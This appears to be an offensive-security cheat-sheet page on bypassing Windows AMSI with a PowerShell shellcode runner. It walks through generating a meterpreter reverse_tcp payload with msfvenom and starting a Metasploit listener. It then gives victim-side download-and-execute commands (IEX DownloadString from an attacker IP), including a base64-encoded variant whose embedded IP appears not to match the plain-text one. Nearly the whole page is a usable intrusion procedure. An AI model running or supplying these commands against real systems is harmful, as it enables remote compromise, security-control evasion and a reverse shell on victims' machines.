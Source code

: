# AMSI Bypass

<details>

<summary>Powershell Shellcode Runner</summary>

* Download all files from [https://github.com/beauknowstech/OSEP-Everything/tree/main/AMSI](https://github.com/beauknowstech/OSEP-Everything/tree/main/AMSI)

- Change Line 1 of `runall.ps1` to Kali's IP

* Host Python Webserver on Kali&#x20;
* Generate the following payload & put in line 44 of shellcoderunner.ps1

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 EXITFUNC=thread -f powershell
```

* Start Msfconsole listener

```bash
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST tun0; set LPORT 443; set ExitOnSession false; exploit -j"
```

* Run following in victim

```powershell
#In CMD.exe
powershell -c IEX (New-Object Net.WebClient).DownloadString('http://192.168.61.128/runall.ps1')

#In Powershell.exe
IEX (New-Object Net.WebClient).DownloadString('http://192.168.61.128/runall.ps1')

#Base64 encoded powershell
IEX (New-Object Net.WebClient).DownloadString('http://192.168.61.128/runall.ps1') save to to_encode.txt
python b64_encode.py to_encode.txt
powershell -e SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADQANQAuADEAOQA3AC8AcgB1AG4AYQBsAGwALgBwAHMAMQAnACkA
```

</details>



